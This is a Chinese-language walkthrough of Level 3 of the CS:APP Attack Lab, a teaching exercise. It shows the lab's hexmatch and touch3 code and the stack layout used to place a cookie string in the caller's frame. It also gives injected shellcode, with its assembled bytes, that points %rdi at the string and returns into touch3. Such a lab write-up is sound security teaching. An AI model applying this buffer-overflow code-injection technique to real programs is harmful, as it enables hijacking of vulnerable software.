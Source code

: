 ### Level3

目的为执行touch3，且满足string == cookie（0x59b997fa），注意到cookie的ascii表示为：35 39 62 39 39 37 66 61
代码:

```c
int hexmatch(unsigned val, char *sval)
{
    char cbuf[110];     // 注意这里直接
    /* Make position of check string unpredictable */
    char *s = cbuf + random() % 100;
    sprintf(s, "%.8x", val);
    return strncmp(sval, s, 9) == 0;
}
//hexmatch汇编代码，注意到这里有三轮压栈，压栈的本质是rsp增长，所以谨慎是否会覆盖我们的字串。
0x000000000040184c <+0>:	push   %r12
0x000000000040184e <+2>:	push   %rbp
0x000000000040184f <+3>:	push   %rbx
//……其他代码

void touch3(char *sval)     //   函数开始地址为：0x4018fa
{
    vlevel = 3; /* Part of validation protocol */
    if (hexmatch(cookie, sval)) {
        printf("Touch3!: You called touch3(\"%s\")\n", sval);
        validate(3);
    } else {
        printf("Misfire: You called touch3(\"%s\")\n", sval);
        fail(3);
    }
    exit(0);
}
//touch3的汇编代码：注意到这里有进行一轮压栈
0x00000000004018fa <+0>:	push   %rbx
//……其他代码
```

answer：我们将string的ascii形式注入，并调用touch3函数。
- 注意到这里是字符串所以我们不能再直接将cookie的值移动到%rdi
- 注意到函数压栈可能会破坏getbuf的空间（函数都没有开辟新空间而是直接push）解析：在getbuf返回后rsp加回时，直接调用touch3就会使得部分我们的字串被覆盖。

所以我们直接放在test的栈帧中（超过getbuf的返回地址即test的栈帧了）
- 获取到test的$rsp地址为 0x5561dca0，因此我们只需要加上8：0x5561dca8即为我们的字符串首地址
![栈说明](https://upload-images.jianshu.io/upload_images/1433829-4f564d4ccfc8b962.png?imageMogr2/auto-orient/strip|imageView2/2/w/569/format/webp)

```c
    movq    $0x5561dca8, %rdi       // 把0x5561dca8的地址作为cookie的存放点，移动到%rdi
    pushq   $0x4018fa               // 入栈，即之后返回地址为0x4018fa（touch3）
    ret
    //编译后再反汇编得到指令
    0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
    7:	68 fa 18 40 00       	pushq  $0x4018fa
    c:	c3                   	retq
```
